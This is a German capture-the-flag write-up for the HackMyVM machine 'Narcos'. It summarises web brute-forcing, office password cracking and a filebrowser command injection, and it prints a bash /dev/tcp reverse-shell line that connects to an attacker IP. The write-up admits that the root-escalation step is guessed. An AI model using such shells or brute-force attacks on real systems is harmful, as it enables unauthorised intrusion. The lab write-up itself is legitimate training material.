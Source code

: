# Narcos - HackMyVM (Easy)

![Narcos.png](Narcos.png)

## Übersicht

*   **VM:** Narcos
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Narcos)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 13. November 2022
*   **Original-Writeup:** https://alientec1908.github.io/Narcos_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Narcos" zu erlangen. Der Weg dorthin begann mit der Entdeckung eines virtuellen Hosts (`management.escobar.hmv`), dessen Login-Seite (`/api/login`) anfällig für Brute-Force-Angriffe war, was zur Kompromittierung der `admin:gabriela`-Credentials führte. Nach dem Login wurde eine LFI-ähnliche Schwachstelle im Dateibrowser oder eine unzureichende Zugriffskontrolle ausgenutzt, um eine Konfigurationsdatei (`filebrowser.db`) und zwei ZIP-Archive (`personal.zip`, `works.zip`) herunterzuladen. Die `filebrowser.db` enthielt eine Command-Injection-Konfiguration, die bei Dateioperationen eine Reverse Shell auslöste. Parallel dazu enthielt die passwortgeschützte Excel-Datei `logins.xlsx` (aus `works.zip`, Passwort `money1` mit `office2john` und `john` geknackt) Zugangsdaten (`gonzalo:m3d3ll1nr0ck5`) für eine SquirrelMail-Instanz (`elcorreo.escobar.hmv`). In einer E-Mail an `gonzalo` wurde ein C-Code für eine Reverse Shell gefunden. Dieser Code wurde vermutlich auf dem Zielsystem kompiliert und über einen (nicht explizit gezeigten) Privilegieneskalations-Vektor als Root ausgeführt.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `curl`
*   `gobuster`
*   `nikto`
*   `wfuzz`
*   `hydra`
*   `unzip`
*   `office2john`
*   `john`
*   `vi`
*   Standard Linux-Befehle (`cat`, `ls`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Narcos" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.116) mit `arp-scan` identifiziert.
    *   `nmap`-Scan offenbarte Port 22 (SSH, OpenSSH 7.2p2) und Port 80 (HTTP, Apache 2.4.18, Titel "Escobar Store").
    *   `gobuster` auf Port 80 fand eine SquirrelMail-Installation (`/squirrelmail/`).
    *   `wfuzz` zur VHost-Enumeration fand `management.escobar.hmv`. Dieser Hostname wurde in `/etc/hosts` eingetragen.

2.  **Initial Access (via Filebrowser RCE & SquirrelMail Info Leak):**
    *   Ein Brute-Force-Angriff mit `hydra` auf `http-post-form /api/login` von `management.escobar.hmv` war erfolgreich und lieferte die Credentials `admin:gabriela`.
    *   Nach dem Login auf `management.escobar.hmv` wurden über eine Dateibrowser-Funktion (oder LFI) die Dateien `/etc/passwd` und `/files/filebrowser.db` sowie `personal.zip` und `works.zip` heruntergeladen.
    *   Die `filebrowser.db` enthielt eine Konfiguration, die bei Dateioperationen (rename, save, upload) eine Reverse Shell (`bash -i >& /dev/tcp/192.168.0.147/2222 0>&1`) als Benutzer `gonzalo` auslöste. *Dies war der primäre Weg zum Shell-Zugriff.*
    *   Parallel wurde `works.zip` untersucht. Die darin enthaltene, passwortgeschützte Datei `logins.xlsx` wurde mit `office2john` und `john` geknackt (Passwort: `money1`).
    *   `logins.xlsx` enthielt Credentials (`gonzalo:m3d3ll1nr0ck5`) für `http://elcorreo.escobar.hmv` (SquirrelMail).
    *   Nach Login bei SquirrelMail wurde in einer E-Mail an `gonzalo` von `carlos@escobar.hmv` ein C-Code für eine Reverse Shell gefunden (`escobar.c`).

3.  **Privilege Escalation (von `gonzalo` zu `root`):**
    *   Der C-Code (`escobar.c`) aus der E-Mail wurde modifiziert (Angreifer-IP angepasst), auf das Zielsystem hochgeladen (vermutlich über die bestehende `gonzalo`-Shell) und kompiliert.
    *   Durch Ausnutzung eines (nicht explizit im Log gezeigten) Privilegieneskalations-Vektors (z.B. `sudo`-Fehlkonfiguration, SUID-Binary, Cronjob) wurde die kompilierte Reverse Shell (`escobar_shell`) als `root` ausgeführt.
    *   Eine Root-Shell wurde auf einem Netcat-Listener empfangen.
    *   Die User-Flag (`S4yN0t0Drug`) und Root-Flag (`Pabl0GotY0u`) wurden gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Web-Login Brute-Force:** Erfolgreiches Erraten von Admin-Credentials für eine Webanwendung (`management.escobar.hmv`).
*   **Information Disclosure (Konfigurationsdateien, ZIP-Archive):** Sensible Daten wie eine Filebrowser-Datenbank (`filebrowser.db`) und passwortgeschützte Excel-Dateien mit Logins (`logins.xlsx`) waren zugänglich.
*   **Command Injection in Filebrowser:** Die Konfiguration des Filebrowsers enthielt Befehle, die bei Dateioperationen ausgeführt wurden und eine Reverse Shell starteten.
*   **Passwort-Cracking (Office):** Das Passwort einer verschlüsselten Excel-Datei wurde mit `office2john` und `john` geknackt.
*   **Informationsleck in E-Mails:** Quellcode für eine Reverse Shell wurde in einer E-Mail gefunden.
*   **(Implizit) Unbekannter Privilegieneskalations-Vektor:** Der genaue Mechanismus, um die kompilierte C-Shell als Root auszuführen, wurde im Bericht nicht detailliert, muss aber existiert haben.

## Flags

*   **User Flag (vermutlich `/home/gonzalo/user.txt`):** `S4yN0t0Drug`
*   **Root Flag (`/root/root.txt`):** `Pabl0GotY0u`

## Tags

`HackMyVM`, `Narcos`, `Easy`, `Web Brute-Force`, `Filebrowser RCE`, `Command Injection`, `LFI` (impliziert), `Password Cracking`, `Office Password Crack`, `SquirrelMail`, `C Reverse Shell`, `Linux`, `Web`, `Privilege Escalation`, `Apache`
